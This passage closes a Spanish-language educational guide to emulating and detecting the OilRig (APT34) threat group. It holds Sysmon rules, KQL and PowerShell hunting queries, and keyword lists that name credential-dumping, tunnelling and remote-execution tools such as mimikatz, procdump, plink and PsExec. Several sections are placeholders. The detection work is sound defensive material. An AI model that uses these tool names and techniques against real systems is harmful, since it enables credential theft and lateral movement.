          <Image condition="end with">psexec.exe</Image>
          <Image condition="end with">ps.exe</Image>
        </Rule>

        <!-- Detectar Plink (SSH tunneling) -->
        <Rule name="Plink tunneling">
          <Image condition="end with">plink.exe</Image>
          <CommandLine condition="contains"> -R </CommandLine>
          <CommandLine condition="contains"> -L </CommandLine>
        </Rule>

      </ProcessCreate>
    </RuleGroup>

    <!-- Network Connections (EventID 3) -->
    <RuleGroup groupRelation="or">
      <NetworkConnect onmatch="include">

        <!-- Detectar conexiones C2 (beaconing periódico) -->
        <Rule name="Potential C2 beaconing">
          <Image condition="end with">SystemFailureReporter.exe</Image>
          <DestinationPort condition="is">443</DestinationPort>
        </Rule>

        <!-- Detectar SSH tunnels -->
        <Rule name="SSH tunneling">
          <Image condition="end with">plink.exe</Image>
          <DestinationPort condition="is">22</DestinationPort>
        </Rule>

        <!-- Detectar conexiones desde SQL hacia Exchange (RDAT) -->
        <Rule name="SQL to Exchange connection">
          <Image condition="contains">VMware.exe</Image>
          <Image condition="contains">RDAT</Image>
          <DestinationIp condition="is">10.1.0.6</DestinationIp>
          <DestinationPort condition="is">443</DestinationPort>
        </Rule>

      </NetworkConnect>
    </RuleGroup>

    <!-- Process Access (EventID 10) - LSASS Access -->
    <RuleGroup groupRelation="or">
      <ProcessAccess onmatch="include">

        <Rule name="LSASS memory access">
          <TargetImage condition="end with">lsass.exe</TargetImage>
          <GrantedAccess condition="contains any">0x1010;0x1038;0x1400;0x1fffff</GrantedAccess>
        </Rule>

      </ProcessAccess>
    </RuleGroup>

    <!-- File Creation (EventID 11) -->
    <RuleGroup groupRelation="or">
      <FileCreate onmatch="include">

        <!-- Detectar creación de archivos sospechosos -->
        <Rule name="Suspicious file creation">
          <TargetFilename condition="contains">\AppData\Local\SystemFailureReporter\</TargetFilename>
          <TargetFilename condition="end with">update.xml</TargetFilename>
          <TargetFilename condition="end with">fsociety.dat</TargetFilename>
        </Rule>

        <!-- Detectar WebShell creation -->
        <Rule name="WebShell creation">
          <TargetFilename condition="contains">\inetpub\</TargetFilename>
          <TargetFilename condition="contains">\Exchange Server\</TargetFilename>
          <TargetFilename condition="end with">.aspx</TargetFilename>
        </Rule>

        <!-- Detectar PSEXESVC -->
        <Rule name="PsExec service file">
          <TargetFilename condition="end with">\PSEXESVC.exe</TargetFilename>
        </Rule>

      </FileCreate>
    </RuleGroup>

    <!-- Image Load (EventID 7) - DLL Loading -->
    <RuleGroup groupRelation="or">
      <ImageLoad onmatch="include">

        <!-- Detectar uso de Windows Vault APIs -->
        <Rule name="Windows Vault DLL loading">
          <ImageLoaded condition="end with">vaultcli.dll</ImageLoaded>
        </Rule>

      </ImageLoad>
    </RuleGroup>

  </EventFiltering>
</Sysmon>
```

---

#### **Hunting Queries**

**Query 1: Buscar cadena completa de ataque de OilRig:**

```kql
// KQL query para Azure Sentinel / Microsoft Sentinel
DeviceProcessEvents
| where Timestamp > ago(7d)
| where ProcessCommandLine has_any ("whoami", "net user", "net group", "ipconfig /all")
| where InitiatingProcessFileName in~ ("cmd.exe", "powershell.exe")
| where InitiatingProcessParentFileName in~ ("WINWORD.EXE", "EXCEL.EXE", "w3wp.exe")
| project Timestamp, DeviceName, AccountName, FileName, ProcessCommandLine, InitiatingProcessFileName, InitiatingProcessParentFileName
| join kind=inner (
    DeviceFileEvents
    | where Timestamp > ago(7d)
    | where FileName has_any ("mimikatz", "psexec", "plink", "PSEXESVC")
) on DeviceName
| join kind=inner (
    DeviceNetworkEvents
    | where Timestamp > ago(7d)
    | where RemotePort == 22 or (RemotePort == 443 and InitiatingProcessFileName !in~ ("chrome.exe", "firefox.exe", "msedge.exe"))
) on DeviceName
| summarize
    FirstSeen=min(Timestamp),
    LastSeen=max(Timestamp),
    SuspiciousProcesses=make_set(FileName),
    Commands=make_set(ProcessCommandLine),
    NetworkConnections=make_set(RemoteIP)
    by DeviceName, AccountName
| where array_length(SuspiciousProcesses) >= 2
```

**Query 2: Detectar uso de credenciales comprometidas:**

```kql
// Buscar patrón Pass-the-Hash después de credential dump
SecurityEvent
| where TimeGenerated > ago(1d)
| where EventID == 4624  // Successful logon
| where LogonType == 9  // NewCredentials (RunAs)
| where AuthenticationPackageName == "Negotiate"
| extend Account = strcat(AccountDomain, "\\", AccountName)
| join kind=inner (
    SecurityEvent
    | where TimeGenerated > ago(1d)
    | where EventID == 4688  // Process creation
    | where Process has_any ("mimikatz", "procdump", "comsvcs.dll")
) on Computer
| where (Event_CreatedTime1 - Event_CreatedTime) between (0min .. 30min)
| project TimeGenerated, Computer, Account, IpAddress, LogonType, WorkstationName
```

**Query 3: Buscar exfiltración vía EWS:**

```powershell
# PowerShell hunting query en Exchange
$suspiciousActivity = Get-MessageTrackingLog -Start (Get-Date).AddDays(-7) -ResultSize Unlimited |
    Where-Object {
        $_.EventId -eq 'SEND' -and
        $_.TotalBytes -gt 100000 -and
        $_.RecipientAddress -notlike '*@boom.box'  # External recipients
    } |
    Group-Object SenderAddress, {$_.Timestamp.Date} |
    Where-Object { $_.Count -gt 20 } |  # More than 20 large emails per day
    ForEach-Object {
        [PSCustomObject]@{
            Sender = $_.Values[0]
            Date = $_.Values[1]
            EmailCount = $_.Count
            TotalSizeMB = [math]::Round(($_.Group | Measure-Object TotalBytes -Sum).Sum / 1MB, 2)
            UniqueRecipients = ($_.Group.Recipients | Select-Object -Unique).Count
            FirstEmail = ($_.Group.Timestamp | Measure-Object -Minimum).Minimum
            LastEmail = ($_.Group.Timestamp | Measure-Object -Maximum).Maximum
            TimeSpan = New-TimeSpan -Start ($_.Group.Timestamp | Measure-Object -Minimum).Minimum `
                                     -End ($_.Group.Timestamp | Measure-Object -Maximum).Maximum
        }
    } |
    Where-Object { $_.TimeSpan.TotalHours -lt 2 }  # High volume in short time

$suspiciousActivity | Format-Table -AutoSize
```

---

#### **Recomendaciones de Monitoreo Continuo**

**1. Baseline de Comportamiento Normal:**

```python
# Script Python para establecer baseline de actividad de email
import pandas as pd
from datetime import datetime, timedelta

def establish_email_baseline(user_email, days=30):
    """
    Establece baseline de comportamiento de envío de emails para un usuario
    """
    # Obtener logs de Exchange de últimos 30 días
    logs = get_exchange_logs(user_email, days)

    baseline = {
        'user': user_email,
        'avg_emails_per_day': logs.groupby(logs['timestamp'].dt.date).size().mean(),
        'max_emails_per_day': logs.groupby(logs['timestamp'].dt.date).size().max(),
        'avg_attachment_size': logs['total_bytes'].mean(),
        'common_recipients': logs['recipient'].value_counts().head(10).to_dict(),
        'common_send_times': logs['timestamp'].dt.hour.value_counts().head(5).to_dict(),
        'external_recipient_ratio': (logs['recipient'].str.contains('@boom.box') == False).mean()
    }

    return baseline

def detect_anomaly(user_email, current_activity, baseline):
    """
    Detecta anomalías comparando actividad actual con baseline
    """
    anomalies = []

    # Volumen anómalo
    if current_activity['emails_today'] > baseline['avg_emails_per_day'] * 5:
        anomalies.append({
            'type': 'high_volume',
            'severity': 'high',
            'details': f"Sent {current_activity['emails_today']} emails (baseline: {baseline['avg_emails_per_day']:.1f})"
        })

    # Tamaño de adjuntos anómalo
    if current_activity['avg_attachment_size'] > baseline['avg_attachment_size'] * 10:
        anomalies.append({
            'type': 'large_attachments',
            'severity': 'medium',
            'details': f"Avg attachment: {current_activity['avg_attachment_size']/1024:.1f} KB (baseline: {baseline['avg_attachment_size']/1024:.1f} KB)"
        })

    # Destinatarios inusuales
    unusual_recipients = set(current_activity['recipients']) - set(baseline['common_recipients'].keys())
    if len(unusual_recipients) > 5:
        anomalies.append({
            'type': 'unusual_recipients',
            'severity': 'medium',
            'details': f"{len(unusual_recipients)} new recipients detected"
        })

    return anomalies
```

**2. Dashboard de Monitoreo SOC:**

```
┌──────────────────────────────────────────────────────────────────┐
│ OilRig TTPs Detection Dashboard                                 │
├──────────────────────────────────────────────────────────────────┤
│                                                                  │
│ Critical Alerts (Last 24h):                                     │
│ ┌────────────────────────────────────────────────────────────┐ │
│ │ [!] LSASS Access Detected         │ 3 alerts │ CRITICAL   │ │
│ │ [!] WebShell Activity             │ 1 alert  │ CRITICAL   │ │
│ │ [!] Mass Email Sending            │ 2 alerts │ CRITICAL   │ │
│ └────────────────────────────────────────────────────────────┘ │
│                                                                  │
│ High Priority Alerts:                                           │
│ ┌────────────────────────────────────────────────────────────┐ │
│ │ [ ] PsExec Usage                  │ 5 alerts │ HIGH       │ │
│ │ [ ] Pass-the-Hash Auth            │ 2 alerts │ HIGH       │ │
│ │ [ ] SSH Tunneling                 │ 1 alert  │ HIGH       │ │
│ └────────────────────────────────────────────────────────────┘ │
│                                                                  │
│ Indicators Timeline:                                            │
│ ┌────────────────────────────────────────────────────────────┐ │
│ │ 09:00 │ Phishing email received                           │ │
│ │ 09:15 │ Macro execution detected                          │ │
│ │ 09:20 │ Scheduled task created (SystemFailureReporter)   │ │
│ │ 09:25 │ C2 beaconing started                              │ │
│ │ 10:30 │ WebShell installed on Exchange                    │ │
│ │ 11:00 │ Mimikatz execution detected                       │ │
│ │ 11:15 │ SSH tunnel established                            │ │
│ │ 12:00 │ Lateral movement to SQL (PsExec)                  │ │
│ │ 13:00 │ Mass email exfiltration detected                  │ │
│ └────────────────────────────────────────────────────────────┘ │
│                                                                  │
│ Affected Assets:                                                │
│ ┌────────────────────────────────────────────────────────────┐ │
│ │ THEBLOCK (10.1.0.5)      │ Initial compromise             │ │
│ │ WATERFALLS (10.1.0.6)    │ Webshell, credential dump      │ │
│ │ ENDOFROAD (10.1.0.7)     │ Data exfiltration              │ │
│ └────────────────────────────────────────────────────────────┘ │
│                                                                  │
│ Compromised Accounts:                                           │
│ ┌────────────────────────────────────────────────────────────┐ │
│ │ BOOMBOX\gosta            │ Initial access, email exfil    │ │
│ │ BOOMBOX\tous             │ Pass-the-Hash, SQL access      │ │
│ └────────────────────────────────────────────────────────────┘ │
│                                                                  │
└──────────────────────────────────────────────────────────────────┘
```

---

#### **Métricas de Efectividad de Detección**

**Coverage Map por Técnica MITRE ATT&CK:**

| Tactic            | Technique                 | Detection Coverage | MTTD*           | Tools/Sources           |
| ----------------- | ------------------------- | ------------------ | --------------- | ----------------------- |
| Initial Access    | T1566.002                 | ✓✓✓ Alta           | < 1 hour        | Email gateway, Proxy    |
| Execution         | T1059.005 (VBA)           | ✓✓✓ Alta           | < 5 min         | Sysmon, EDR             |
| Persistence       | T1053.005 (Sched Task)    | ✓✓✓ Alta           | < 5 min         | Event 4698, Sysmon      |
| Credential Access | T1003.001 (LSASS)         | ✓✓✓ Alta           | Real-time       | Sysmon, EDR             |
| Credential Access | T1555 (Vault)             | ✓✓ Media           | < 15 min        | Sysmon DLL load         |
| Lateral Movement  | T1021.002 (SMB/Admin)     | ✓✓✓ Alta           | < 5 min         | Event 5145, Firewall    |
| Lateral Movement  | T1550.002 (PTH)           | ✓✓ Media           | < 10 min        | Event 4624, Correlation |
| Command & Control | T1071.001 (HTTP)          | ✓✓ Media           | < 30 min        | Network logs, IDS       |
| Command & Control | T1572 (Tunneling)         | ✓✓✓ Alta           | < 5 min         | Firewall, Process logs  |
| Exfiltration      | T1048.003 (Alt Protocol)  | ✓✓✓ Alta           | < 15 min        | Exchange logs, SIEM     |
| Exfiltration      | T1027.003 (Steganography) | ✓ Baja             | Manual analysis | File analysis, DLP      |
| Defense Evasion   | T1070.004 (File Deletion) | ✓✓ Media           | < 30 min        | Event 4660, FIM         |

*MTTD = Mean Time To Detect

---

<!-- ## Conclusión de la Parte 3

Este análisis técnico profundo proporciona una comprensión completa de:

1. **Malware utilizado:** Arquitectura, funcionalidad, técnicas de evasión y IOCs de SideTwist, VALUEVAULT, TwoFace y RDAT
2. **Infraestructura:** Configuración completa de red, sistemas, servicios y flujos de comunicación
3. **Detección:** Estrategias en capas, reglas Sigma, configuración de Sysmon, hunting queries y métricas de efectividad

**Aplicación Práctica:**

Los defensores pueden utilizar este conocimiento para:
- Implementar detecciones específicas contra TTPs de OilRig
- Configurar logging y monitoring comprehensivo
- Realizar threat hunting proactivo
- Mejorar la postura de seguridad general

**Próximos Pasos Recomendados:**

1. Implementar configuración de Sysmon en todos los endpoints
2. Desplegar reglas Sigma en SIEM
3. Establecer baselines de comportamiento normal
4. Realizar purple team exercises basados en este escenario
5. Actualizar runbooks de respuesta a incidentes

---

**Fin del Documento Educativo**

Este documento ha cubierto completamente la emulación del ataque de OilRig, desde el contexto inicial hasta el análisis técnico profundo. Los estudiantes ahora tienen el conocimiento necesario para comprender, detectar y defender contra este tipo de amenazas persistentes avanzadas. -->

---

<!-- # Parte 4: Guía de Laboratorio Práctico

## 4.1 Configuración del Entorno

[Sección a desarrollar] -->

---

<!-- ## 4.2 Ejecución de la Emulación

[Sección a desarrollar] -->

---

<!-- ## 4.3 Ejercicios para el Equipo Azul

[Sección a desarrollar] -->

---

## Apéndices

### Apéndice A: Tabla de Referencia de Técnicas MITRE ATT&CK

| ID Técnica | Nombre                                          | Paso(s) | Descripción                                      |
| ---------- | ----------------------------------------------- | ------- | ------------------------------------------------ |
| T1566.002  | Phishing: Spearphishing Link                    | 1       | Envío de enlace malicioso por correo electrónico |
| T1204.002  | User Execution: Malicious File                  | 1       | Usuario abre documento y habilita macros         |
| T1059.005  | Command and Scripting Interpreter: Visual Basic | 1       | Macros VBA ejecutan código malicioso             |
| T1082      | System Information Discovery                    | 1, 2    | Recopilación de información del sistema          |
| T1033      | System Owner/User Discovery                     | 1, 2    | Identificación de usuario actual                 |
| ...        | ...                                             | ...     | ...                                              |

### Apéndice B: Referencia de Comandos y Herramientas

[Sección a desarrollar]

---

### Apéndice C: Indicadores de Compromiso (IOCs)

[Sección a desarrollar]

---

### Apéndice D: Lecturas Adicionales y Fuentes de CTI

#### Reportes de Inteligencia de Amenazas

1. **Check Point Research (2021)**
   - Título: "Iran's APT34 Returns with an Updated Arsenal"
   - URL: https://research.checkpoint.com/2021/irans-apt34-returns-with-an-updated-arsenal/
   - Tema: Actualización sobre herramientas de OilRig, incluyendo SideTwist

2. **Palo Alto Networks Unit 42**
   - "The OilRig Campaign: Attacks on Saudi Arabian Organizations Deliver Helminth Backdoor"
   - URL: https://unit42.paloaltonetworks.com/the-oilrig-campaign-attacks-on-saudi-arabian-organizations-deliver-helminth-backdoor/

3. **Mandiant**
   - "Hard Pass: Declining APT34's Invite to Join Their Professional Network"
   - URL: https://www.mandiant.com/resources/hard-pass-declining-apt34-invite-to-join-their-professional-network
   - Tema: Análisis de VALUEVAULT y técnicas de credential harvesting

4. **Intezer**
   - "New Iranian Campaign Tailored to US Companies Uses Updated Toolset"
   - URL: https://www.intezer.com/blog/malware-analysis/new-iranian-campaign-tailored-to-us-companies-uses-updated-toolset/

<!-- #### Recursos Técnicos

[Sección a desarrollar]
 -->
---

### Apéndice E: Glosario de Términos

**APT (Advanced Persistent Threat):** Amenaza persistente avanzada. Actor de amenaza sofisticado, típicamente patrocinado por estado-nación, que mantiene presencia prolongada en redes objetivo.

**Backdoor:** Programa malicioso que proporciona acceso remoto no autorizado a un sistema comprometido.

**Beacon:** Comunicación periódica desde un sistema comprometido hacia servidor C2 para recibir comandos.

**C2 (Command and Control):** Infraestructura que permite a atacantes comunicarse con sistemas comprometidos y enviar comandos.

**Credential Dumping:** Técnica de extracción de credenciales (contraseñas, hashes) desde sistemas comprometidos.

**EWS (Exchange Web Services):** API de Microsoft Exchange que permite acceso programático a datos de Exchange.

**Killswitch:** Mecanismo que termina ejecución de malware bajo condiciones específicas.

**Lateral Movement:** Técnicas utilizadas para moverse de un sistema comprometido a otros sistemas dentro de la misma red.

**Pass-the-Hash:** Técnica de autenticación usando hash NTLM directamente sin conocer contraseña en texto claro.

**Persistence:** Técnicas para mantener acceso a sistema comprometido entre reinicios y cambios de configuración.

**Spearphishing:** Phishing dirigido a individuos o organizaciones específicas con contenido personalizado.

**Webshell:** Script malicioso instalado en servidor web que proporciona acceso remoto vía peticiones HTTP/HTTPS.

**XOR:** Operación de cifrado simple usada frecuentemente por malware para ofuscar comunicaciones.

---

### Información del Documento

**Versión:** 1.0
**Fecha de Creación:** 2025-10-19
**Basado en:** MITRE ATT&CK Evaluations - OilRig Adversary Emulation
**Nivel Técnico:** Intermedio
**Idioma:** Español

**Propósito Educativo:**
Este documento ha sido creado con fines estrictamente educativos y de investigación en seguridad defensiva. El conocimiento aquí presentado debe utilizarse únicamente para mejorar capacidades defensivas, validar controles de seguridad, y entrenar equipos de seguridad en entornos controlados y autorizados.

**Advertencia Legal:**
El uso de las técnicas y herramientas descritas en este documento contra sistemas sin autorización explícita es ilegal y está sujeto a sanciones penales y civiles. El lector asume toda responsabilidad por el uso de la información aquí contenida.

---

**Agradecimientos:**
Este material educativo se basa en el trabajo del equipo de MITRE ATT&CK Evaluations y en investigación de inteligencia de amenazas de Check Point Research, Palo Alto Networks Unit 42, Mandiant, y otros investigadores de seguridad citados a lo largo del documento.

---

